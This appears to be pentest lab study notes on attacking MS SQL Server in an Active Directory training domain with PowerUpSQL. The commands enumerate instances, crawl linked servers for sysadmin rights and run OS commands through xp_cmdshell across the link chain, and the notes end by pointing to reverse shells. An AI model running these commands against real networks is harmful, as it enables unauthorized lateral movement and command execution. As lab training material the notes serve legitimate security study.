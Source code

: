 ## MS SQL 

```powershell
# Import PowerUpSQL.psd1
C:> Import-Module C:\AD\Tools\PowerUpSQL-master \PowerupSQL.psd1
```
### Enumerate
---
#### Discovery (SPN Scan)
```powershell
C:> Get-SQLInstanceDomain
```
#### Gather Information
```powershell
C:> Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
ComputerName           : dcorp-mssql.dollarcorp.moneycorp.local
Instance               : DCORP-MSSQL
DomainName             : dcorp
...
ServiceAccount         : NT AUTHORITY\NETWORKSERVICE
...
Currentlogin           : dcorp\student76
IsSysadmin             : No    -> Need to find out a Yes here
ActiveSessions         : 1

ComputerName           : dcorp-mssql.dollarcorp.moneycorp.local
Instance               : DCORP-MSSQL
DomainName             : dcorp
...
ServiceAccount         : NT AUTHORITY\NETWORKSERVICE
...
Currentlogin           : dcorp\student76
IsSysadmin             : No
ActiveSessions         : 1
```
#### Check Accessibility
```powershell
C:> Get-SQLConnectionTestThreaded
ComputerName    Instance        Status
------------    --------        ------
DCORP-STUDENT76 DCORP-STUDENT76 Not Accessible

C:> Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
ComputerName                           Instance                                    Status
------------                           --------                                    ------
dcorp-mgmt.dollarcorp.moneycorp.local  dcorp-mgmt.dollarcorp.moneycorp.local,1433  Not Accessible
dcorp-mssql.dollarcorp.moneycorp.local dcorp-mssql.dollarcorp.moneycorp.local,1433 Accessible
dcorp-mssql.dollarcorp.moneycorp.local dcorp-mssql.dollarcorp.moneycorp.local      Accessible
dcorp-sql1.dollarcorp.moneycorp.local  dcorp-sql1.dollarcorp.moneycorp.local       Not Accessible
dcorp-sql1.dollarcorp.moneycorp.local  dcorp-sql1.dollarcorp.moneycorp.local,1433  Not Accessible
dcorp-mgmt.dollarcorp.moneycorp.local  dcorp-mgmt.dollarcorp.moneycorp.local       Not Accessible
DCORP-STUDENT76                        DCORP-STUDENT76                             Not Accessible
```
### Database Links
---
A database link allows a SQL Server to access other resources like other SQL Server. If we have two linked SQL Servers we can execute stored procedures in them. Database links also works across Forest Trust
#### Look for Links to Remote Servers
```powershell
C:> Get-SQLServerLink -Instance <mssql_instance> -Verbose
# Also can do the query "select * from master..sysservers"
```
#### Enumerate Database Links
```powershell
# Find for a Sysadmin attribute on a server
C:> Get-SQLServerLinkCrawl -Instance <mssql_instance> -Verbose
```
### Execute Commands
---
```powershell
# On Specific Instance
C:> Get-SQLServerLinkCrawl -Instance <mssql_instance> -Query "exec master..xp_cmdshell 'whoami'" -QueryTarget <sq_host>

# Execute query on every link of the chain
C:> Get-SQLServerLinkCrawl -Instance <mssql_instance> -Query "exec master..xp_cmdshell 'whoami'" 

# The query is returned in CustomQuery field
Version     : SQL Server 2017
Instance    : EU-SQL
CustomQuery : {nt authority\network service, }
Sysadmin    : 1
Path        : {DCORP-MSSQL, DCORP-SQL1, DCORP-MGMT, EU-SQL.EU.EUROCORP.LOCAL}
User        : sa
Links       :
# Use this queries to open reverse shells
```
